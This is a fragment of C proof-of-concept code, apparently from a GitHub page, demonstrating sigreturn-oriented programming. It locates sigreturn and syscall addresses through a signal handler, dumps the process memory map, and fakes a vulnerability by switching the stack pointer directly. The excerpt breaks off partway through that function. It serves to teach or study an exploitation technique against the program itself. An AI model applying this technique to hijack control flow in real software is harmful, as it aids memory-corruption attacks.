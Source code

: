 ```
    act.sa_flags = SA_SIGINFO;
    sigemptyset(&act.sa_mask);
 
    sigemptyset(&set);
    sigemptyset(&oldset);
    sigaddset(&set, SIGUSR1);
 
    sigaction(SIGUSR1, &act, NULL);
 
    sigprocmask(SIG_SETMASK, &set, &oldset);
 
    kill(getpid(), SIGUSR1);
 
    /* signal handler will executed before this sycall return */
    sigprocmask(SIG_SETMASK, &oldset, NULL);
}
 
void env_init(void)
{
    /* get addr of sigreturn & syscall insns. */
    get_sys_from_signal();
 
    syscall_ret_addr = &syscall_ret;
 
    if(!sigreturn_addr) {
        printf("[-] sigreturn_addr not set.\n");
        return 0;
    }
 
    printf("[+] sigreturn addr:%p, syscall_ret addr:%p\n", \
        sigreturn_addr, syscall_ret_addr);
}
 
void show_maps(void)
{
    int ret;
    char buf[0x100];
    int fd = open("/proc/self/maps", O_RDONLY);
     
    do {
        memset(buf, 0, sizeof(buf));
        ret = read(fd, buf, sizeof(buf));
        write(1, &buf, ret);
    } while(ret);
 
    write(1, "\n", 1);
    close(fd);
}
 
/*
  This function is used to simulate the vulnerability,
  (for simplicity) it directly switches the current sp
*/
void vul_trigger(unsigned long * new_sp)
{
    asm("mov sp, %0\n\t"
    :
    :"r"(new_sp)
    :);
 
    /* ret address should be pop from epilogue in real exp,
       for stability in the test case, we just change it manurally
    */
```